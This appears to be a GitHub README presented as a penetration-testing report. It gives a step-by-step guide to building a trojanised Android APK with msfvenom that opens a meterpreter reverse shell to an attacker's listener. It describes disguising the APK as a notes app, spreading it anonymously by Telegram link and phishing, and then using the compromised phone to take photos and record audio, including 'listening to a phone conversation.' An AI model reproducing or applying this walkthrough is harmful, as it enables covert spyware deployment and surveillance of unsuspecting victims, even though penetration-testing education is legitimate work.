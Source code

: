 # Malicious App for Android

In this report, we have shown how we can hack an android mobile device using MSF
venom and the Metasploit framework. We will use MSF venom for generating the
payload, save it as an .apk file and set up a listener to the Metasploit framework. Once
the user/victim downloads and install the malicious .apk, an attacker can easily get back
the session on Metasploit. To accomplish this, an attacker needs to do some social
engineering to install the .apk on the victim’s mobile device.

The payload successfully penetrated the Android device using Kali Linux and penetration testing tools(Metasploit).
Successful creation and deployment of virus for android injected with payload in the form of an android app. With the help of our malicious .apk file (virus app for android) named Notes(apk).

Metasploit Framework--

* Metasploit is a penetration testing framework that makes hacking simple. It's an
essential tool for many attackers and defenders. Point Metasploit at your target,
pick an exploit, what payload to drop, and hit Enter.
* Better still, the core Metasploit Framework is both free and libre software and
comes pre-installed in Kali Linux. (It's BSD-licensed). The framework offers only a
command-line interface, but those wanting GUI-based click-and-drag hacking —
plus some other cool features — can drop a bundle for per-seat licenses
to Metasploit Pro.

Meterpreter--
* Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL
injection stagers and is extended over the network at runtime. It communicates over
the stager socket and provides a comprehensive client-side Ruby API. It features
command history, tab completion, channels, and more.
* Metepreter was originally written by skape for Metasploit 2.x, common extensions
were merged for 3.x and is currently undergoing an overhaul for Metasploit 3.3. The
server portion is implemented in plain C and is now compiled with MSVC, making it
somewhat portable. The client can be written in any language but Metasploit has a
full-featured Ruby client API.
* The target executes the initial stager. This is usually one of bind, reverse, findtag,
passivex, etc.
* The stager loads the DLL prefixed with Reflective. The Reflective stub handles the
loading/injection of the DLL.
* The Metepreter core initializes, establishes a TLS/1.0 link over the socket and sends a
GET. Metasploit receives this GET and configures the client.
* Lastly, Meterpreter loads extensions. It will always load stdapi and will load priv if the
module gives administrative rights. All of these extensions are loaded over TLS/1.0
using a TLV protocol.

Msfvenom--
* MSFvenom is used to make a payload to penetrate the Android emulator. Note: In
this command, we have used the local address because we are demonstrating in the
local environment. To perform in the public network, you should enter your public
address in LHOST and enable port forwarding on the router.
* Msfvenom is a command line instance of Metasploit that is used to generate and
output all of the various types of shell code that are available in Metasploit.
Reverse TCP Payload
* A reverse shell (also known as a connect-back) is the exact opposite: it requires the
attacker to set up a listener first on his box, the target machine acts as a client
connecting to that listener, and then finally the attacker receives the shell.
* It is a combination of MSFpayload and MSFencode. These tools are extremely useful for
generating payloads in various formats and encoding these payloads using various
encoder modules. 



What are we going to do?

* Using Metasploit Framework and MSF venom we are going to create a malicious .apk file.
* The .apk file will be having a particular payload and will have all file necessary to get access
to various features of the target device. 
* The .apk will be sent to the victim’s device using a
link which will automatically initiate the download of the the malicious .akp file into the
device. 
* The .apk will ask the victim for allowance of features on the device. After victim
grants the access to the app we can start our MSF console and initiate a meterpreter
session which will become a means of transfer for victims data to the hacker.
* After establishing a successful connection between the victim’s device and the hacker we
can accomplish huge number of tasks and gather enormous amount of victim’s data. 


How Are we going to do.
We will demonstrate this by using the following tools
* VirtualBox (virtual environment)
* Kali Linux
* Android device/emulator
We are using Kali Linux and an Android device to perform mobile penetration testing. Kali
Linux is one of the Debian-based operating systems with several tools aimed at various
information security tasks such as penetration testing, forensics and reverse engineering.
Kali Linux is one of the most-used operating systems for penetration testing. 
![image](https://user-images.githubusercontent.com/58047550/221257459-885a10aa-749e-450a-bb60-a619be90b6bb.png)




Step 1: Starting Kali Linux

•	From our VM, start Kali Linux and log in with our (user ID/password).
•	Open a terminal and switch user to root For this, we use the following command: Terminal: sudo su
And enter the user password.

•	After changing user to root in the terminal install apktool.
•	For this, we use the following command:
•	Terminal: apt-get install apktool
 

 

•	Now check your ip address using the command Terminal: ip r
•	This ip will be useful while assigning the localhost.

Step 2: After installing apktool make an exploit for the Android using the MSFvenom tool. For this, we use the following command:
Terminal: msfvenom -a java --platform android -p android/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=8080 -o Notes.apk

APK file created successfully

Malicious .apk file ready to install
 

Step 3: The next step is to set up the listener on the Kali Linux machine with multi/handler payload using Metasploit.

For this, we use the following command: Terminal: msfconsole
 
 
Step 4:
Now we launch the exploit multi/handler and use the Android payload to listen to the clients.
Next commands used:
➢	msf6 > use exploit/multi/handler
➢	msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
➢	msf6 exploit(multi/handler) > set LHOST 192.168.1.103
➢	msf6 exploit(multi/handler) > set LPORT 8080
➢	msf6 exploit(multi/handler) > options
Next, set the options for payload, listener IP (LHOST) and listener PORT(LPORT). We have used localhost IP, port number 8080 and
payload android/meterpreter/reverse_tcp while creating an .apk file with MSFvenom.


























Type exploit -- Then we can successfully run the exploit to listen for the reverse connection.
 

Step 5:
Next, we need to install the malicious Android .apk file to the victim mobile device. Attacker can share a malicious Android .apk to the victim with the help of social engineering/email phishing.
At first we will try to generate a link for our .apk For this we will :
Goto mediafire website: https://app.mediafire.com/myfiles Next goto upload file.
 
And upload your apk file.
After uploading the malisious .apk file we will copy the link for the download page of our
.apk file.
Once we have generated the link for downloading our .apk file, we can send this link to the victim’s android device.
 

 



 

Step 6:
Next, we are going to download the file from link we have created on Kali Linux and will send this link to the victim account.
For this we have used telegram. We can change our identity to anonymous and can send this file link to the victim’s account. With the help of social enginnering we have made this app look like an app to take notes on your android and we have mentioned its product description. This makes it look like an attractive app and the victim might not hesitate in trying to download this app and use this app.
We have opened Telegram web on our browser in kali. Now we can easily send the link and our description about the app to the victim.



Step 7:
All screenshot mentioned below are of the victim’s android device. This is the victim’s device.
Victim open telegram and click on this link for the app.
 

 


■	As the victim clicks on this link to take a look at the app.
 

 





■	The victim is taken to the mediafire website page which consists the file download option.


■	As the user clicks on the download option the file starts downloading.
 

 

The victim has Downloaded the file into the Android device Now victim runs and install the .apk file.
■	Once the .apk fil is downloaded the user is redirected to the installation page.
 

 

Step 8:
■	The app asks for permissions to access the features on the victim’s android device.
 

 
■	Installing the application into an Android device

■	Once the user allows the app to access the features and click on install.
 

■	Android starts the installation of the app and once installed the user can see the app in the device named as MainActivity and can just click on the app to start using it.

■	After complete installation, we are going back to the Kali machine and start the Meterpreter session.
Step 9:
Going back to kali—
Once the user clicks on the app—our meterpreter session initiate and starts receiving data.

 

Successfully got the Meterpreter session
Once the meterpreter session starts we can just type “help” command to see the available option to execute in meterprreter.
With help command, we will see more options that we can perform with an Android device.

The commands are well categorized according to different domains.
 

 


Our first commmand will be “sysinfo”-
**sysinfo**
The ```sysinfo``` command shows you basic information about the Android device.
We got the Meterpreter session of the Android device. We can check more details with the sysinfo command, as mentioned in the below screenshot.
Next command—
**ifconfig**
The ```ifconfig``` command displays the network interfaces on the remote machine.
 

 

Display system details

 

Next command:
**getuid**
The ```getuid``` command shows the current user that the payload is running as: Next command:
**ps**
The ```ps``` command shows a list of processes the Android device is running. Next Command:
**webcam_list**
The ```webcam_list``` command shows a list of webcams you could use for the
```webcam_snap``` command. Next command:
**webcam_snap**
The ```webcam_snap``` command takes a picture from the device. You will have to use the
```webcam_list``` command to figure out which camera to use.

 

Next Command:
**record_mic**
The ```record_mic``` command records audio. Good for listening to a phone conversation, as well as other uses.



These are the files we got in our kali machine after executing the commands for camera (2 files .jpeg) and sound recording (1 file .wav).

To end the meterpreter session we can simply 
![image](https://user-images.githubusercontent.com/58047550/221258855-508b66f0-678e-4831-9293-deb97e2de1f4.png)

